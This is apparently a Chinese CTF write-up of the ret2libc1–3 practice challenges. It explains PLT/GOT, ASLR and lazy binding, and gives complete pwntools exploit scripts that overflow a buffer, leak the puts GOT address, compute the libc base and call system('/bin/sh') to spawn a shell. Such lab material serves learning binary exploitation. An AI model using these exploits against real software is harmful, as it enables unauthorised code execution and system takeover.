







# 1.ret2libc1


 **先讲几个知识点：**

1. system函数属于libc，并且libc.so动态链接库中的函数之间相对偏移是固定的，即使打开ASLR也是如此。
2. PLT(Procedure Linkage Table)表中的数据不是函数的真实地址，带有@plt的函数起个过渡作用。
3. GOT(Global Offset Table)表中的数据才是函数最终的地址，plt表中的数据是got表的地址，可以通过plt表跳转到got表来得到函数的真正地址。
4. 地址随机化没有对PLT表和GOT表起作用。


首先file和checksec一下

ida查看，没有后门函数，nx打开，且是动态链接程序

虽然说没有后门函数，但是调用了system函数：

并且有/bin/sh字符串：

gdb调试，ebp:0xffffd128

所以exp可以这样：

```python
from pwn import *
io = process("./ret2libc1")
elf = ELF("./ret2libc1")
system_plt = elf.plt["system"]
bin_sh = next(elf.search(b"/bin/sh"))
payload = b'A'*112 + p32(system_plt)+b'aaaa' + p32(bin_sh)
io.sendline(payload)
io.interactive()
```


# 2.ret2libc2

这题与ret2libc1差不多，只是没有/bin/sh 字符串，所以需要我们自己写入

Exp：

```python
from pwn import *
io = process("./ret2libc2")
elf = ELF("./ret2libc2")
buf2 = elf.symbols["buf2"]
gets_plt = elf.plt["gets"]
system_plt = elf.plt["system"]

payload = b'a'*112 + p32(gets_plt) + p32(system_plt) +p32(buf2) +p32(buf2)
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```


当然，exp也可以这样写：

```python
from pwn import *
io = process("./ret2libc2")
elf = ELF("./ret2libc2")
buf2 = elf.symbols["buf2"]
gets_plt = elf.plt["gets"]
system_plt = elf.plt["system"]
pop_ret = 0x0804843d
payload = b'a'*112 + p32(gets_plt) + p32(pop_ret) +p32(buf2)+ p32(system_plt)+  p32(0xdeadbeef)+p32(buf2) 
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```


# 3.ret2libc3

首先查看保护：


没有找到system函数和/bin/sh字符串。

如果知道libc中某个函数的地址，进而可以知道system函数的地址。

为得到libc中某个函数的地址，一般采用got表泄露，即输出某个函数对用的got表的内容。由于libc的延迟绑定机制，需要泄露已经执行过的函数的地址。这个机制大致就是在第一次调用某个函数的时候，这个函数的got表中存放的是下一条plt表的指令的地址，经过一系列操作后得到真实地址，然后将这个真实地址放到got表中，这样之后调用这个函数的时候在got表中可以直接找到真实地址。

因为在这之前已经运行过puts函数，so，got表中放着puts的真实地址，所以我们可以将puts的真实地址打印出来。

> libc基地址   +   函数偏移量    =   函数真实地址

以下可以找到puts的真实地址：0xf7da9ca0

```
from pwn import *
io = process("./ret2libc3")
elf = ELF("./ret2libc3")
puts_got = elf.got["puts"]
puts_plt = elf.plt["puts"]

payload = b'a'*112 + p32(puts_plt) +p32(0xdeadbeef) + p32(puts_got)
io.recv()
io.sendline(payload)
puts_addr = hex(u32(io.recv()[0:4]))
print(puts_addr)
```



找到了puts的真实地址，但是还需要知道libc的版本，其实根据真实地址是可以得到libc的版本的。

ASLR，地址随机化，但即是再随机化，它的低12位保持不变，因为内存页对齐的缘故。

0xf7da9ca0的低12位是ca0，这里有个网站：https://libc.blukat.me/

可以根据低12位查到这个的版本

这样就得到了system函数的偏移和/bin/sh的偏移。

> system_offset = 0x03d2e0
> puts_offset = 0x067ca0
> bin_sh_offset = 0x17e0af

完整EXP：

```
from pwn import *

p = process('./ret2libc3')
elf = ELF('./ret2libc3')

puts_got_addr = elf.got['puts']
puts_plt_addr = elf.plt['puts']
main_plt_addr = elf.symbols['_start']

payload = b'a'*112 + p32(puts_plt_addr) + p32(main_plt_addr) + p32(puts_got_addr)
#main_plt_addr可以使程序再次溢出

p.recv()
p.sendline(payload)

puts_addr = u32(p.recv()[0:4])

sys_offset = 0x03d2e0
puts_offset = 0x067ca0
sh_offset = 0x17e0af
#libc基地址 + 函数偏移 = 函数真实地址
libc_base_addr = puts_addr - puts_offset
sys_addr = libc_base_addr + sys_offset 
sh_addr = libc_base_addr + sh_offset 
 

payload = b'a'*112 +p32(sys_addr) + p32(0xdeadbeef) +p32(sh_addr)

p.sendline(payload)
p.interactive()
```


